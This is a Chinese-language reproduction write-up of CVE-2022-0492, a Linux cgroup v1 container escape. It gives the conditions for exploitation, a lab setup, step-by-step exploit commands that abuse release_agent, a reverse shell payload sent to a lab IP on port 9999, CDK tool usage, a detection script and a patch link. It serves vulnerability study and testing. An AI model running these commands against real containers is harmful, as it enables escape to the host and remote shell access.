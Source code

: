 # Linux 内核 cgroup v1 逻辑错误导致容器逃逸 CVE-2022-0492

## 漏洞描述

该漏洞是由于 control groups（cgroups）中的一个逻辑错误所致。Control Groups（cgroups）是一个 Linux 特性，允许管理员限制、记录和隔离一组进程所使用的资源。Linux 支持两种 cgroup 架构，分别名为 cgroup v1 和 cgroup v2，该漏洞只影响 cgroup v1 架构。

如果容器运行了以下操作，则可逃逸：

- 以 root 用户身份运行，或没有为容器进程设置 [no_new_privs](https://kubernetes.io/zh-cn/docs/tasks/configure-pod-container/security-context/) 标志；
- 没有启用 AppArmor 或 [SELinux](https://www.redhat.com/en/topics/linux/what-is-selinux#:~:text=Security%2DEnhanced%20Linux%20\(SELinux\),Linux%20Security%20Modules%20\(LSM\).) 进行保护；
- 没有启用  [Seccomp](https://docs.docker.com/engine/security/seccomp/)  进行保护；
- 在启用了非特权用户命名空间的主机上运行；
- 隶属于 root v1 cgroup。

或满足下列条件，则可逃逸：

- 具有 CAP_SYS_ADMIN 权限；
- 没有启用 AppArmor 或 SELinux 进行保护；
- 没有创建 cgroup 命名空间；
- 隶属于 root v1 cgroup。

参考链接：

  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0492
  - https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/
  - http://terenceli.github.io/技术/2022/03/06/cve-2022-0492
  - https://github.com/PaloAltoNetworks/can-ctr-escape-cve-2022-0492
  - https://github.com/Metarget/metarget

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 19.03.6
```

Linux 内核版本 `5.4.0-84-generic`：

```
uname -a
Linux ubuntu 5.4.0-84-generic #94~18.04.1-Ubuntu SMP Thu Aug 26 23:17:46 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603105827303.png)

## 漏洞复现

创建禁用了 AppArmor 和 Seccomp 的容器：

```
docker run -it --name cve-2022-0492 --security-opt="seccomp=unconfined" --security-opt="apparmor=unconfined" ubuntu:latest /bin/bash
```

AppArmor 和 SELinux 都会阻止挂载，这意味着使用其中任何一种方式运行的容器都受到保护 。如果两者皆禁用，容器可以通过滥用用户命名空间来挂载 cgroupfs。

挂载 cgroupfs 需要在托管当前 cgroup 命名空间的用户命名空间中拥有 `CAP_SYS_ADMIN` 权限。默认情况下，容器运行时没有 `CAP_SYS_ADMIM` 权限 ，因此无法在初始用户命名空间中挂载 cgroupfs。但是，通过 `unshare()` 系统调用，容器可以创建新的用户和 cgroup 命名空间，并在这些命名空间中拥有 `CAP_SYS_ADMIN` 权限并可以挂载 cgroupfs：

- 第一步，创建一个新的用户和 cgroup 命名空间，它将具有 `CAP_SYS_ADMIN` 权限：

```
root@0c782b51c5ac:/# unshare -UrmC bash
```

>并非所有容器都能创建新的用户命名空间—— 宿主机必须启用非特权用户命名空间 。在最近的 Ubuntu 版本中，这是默认设置。由于 Seccomp 会阻止 `unshare()` 系统调用， 因此只有在未启用 Seccomp 的情况下运行的容器才能创建新的用户命名空间 。

- 第二步，容器在新的用户和 cgroup 命名空间中挂载 root RDMA cgroup：

```
root@0c782b51c5ac:/# mount -it cgroup -o rdma cgroup /mnt
```

- 第三步，在 cgroup 中创建一个名为 `w` 的子组，开启 release agent，设置 `notify_on_release=1`：

```
root@0c782b51c5ac:/# d=`dirname $(ls -x /mnt/r* |head -n1)`
root@0c782b51c5ac:/# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
```

- 第四步，从 `/etc/mtab` 中提取 cgroup 临时路径，将 `exp.sh` 路径写入 `/mnt/release_agent`：

```
root@0c782b51c5ac:/# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@0c782b51c5ac:/# printf '#!/bin/bash\n/bin/bash -i >& /dev/tcp/192.168.43.149/9999 0>&1' > /exp.sh; chmod 777 /exp.sh
root@0c782b51c5ac:/# echo "$t/exp.sh" > $d/release_agent
```

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603111941141.png)

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603113252638.png)

- 第五步，e创建一个马上终止的进程，当 `w` 子组的最后一个进程退出时，将激活 `/mnt/release_agent`：

```
root@0c782b51c5ac:/# sh -c "echo 0 >$d/w/cgroup.procs"
```

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603110039518.png)

监听 9999 端口，获取反弹 shell：

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603103539046.png)

也可以通过 [CDK](https://github.com/cdk-team/CDK) 复现。下载 CDK ，并将其传入容器 `/tmp` 目录下，执行命令：

```
./cdk run mount-cgroup "whoami" rdma
```

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603115127954.png)

> 注意，cdk 默认为 memory cgroup，权限不足，需要指定为 rdma。

![](images/Linux%20内核%20cgroup%20v1%20逻辑错误导致容器逃逸%20CVE-2022-0492/image-20250603115247636.png)

## 漏洞 POC

[can-ctr-escape-cve-2022-0492.sh](https://github.com/PaloAltoNetworks/can-ctr-escape-cve-2022-0492/blob/main/can-ctr-escape-cve-2022-0492.sh)

```shell
#!/bin/bash
echo "[*] Testing whether CVE-2022-0492 can be exploited for container escape" 

# Setup test dir
test_dir=/tmp/.cve-2022-0492-test
if ! mkdir -p $test_dir ; then
    echo "ERROR: failed to create test directory at $test_dir" 
    exit 1
fi

# Test whether escape via CAP_SYS_ADMIN is possible
if mount -t cgroup -o memory cgroup $test_dir >/dev/null 2>&1 ; then
    if test -w $test_dir/release_agent ; then
        echo "[!] Exploitable: the container can escape as it possesses CAP_SYS_ADMIN and runs without AppArmor or SELinux. Note that it likely doesn't need CVE-2022-0492 to escape."
        umount $test_dir && rm -rf $test_dir
        exit 0
    fi
    umount $test_dir
fi

# Test whether escape via user namespaces is possible
while read -r subsys
do
    if unshare -UrmC --propagation=unchanged bash -c "mount -t cgroup -o $subsys cgroup $test_dir 2>&1 >/dev/null && test -w $test_dir/release_agent" >/dev/null 2>&1 ; then
        echo "[!] Exploitable: the container can abuse user namespaces to escape"
        rm -rf $test_dir
        exit 0
    fi
done <<< $(cat /proc/$$/cgroup | grep -Eo '[0-9]+:[^:]+' | grep -Eo '[^:]+$')

# Cannot escape via either method
rm -rf $test_dir
echo "[+] Contained: cannot escape via CVE-2022-0492"
```

## 漏洞修复

- 升级补丁 https://access.redhat.com/security/cve/cve-2022-0492
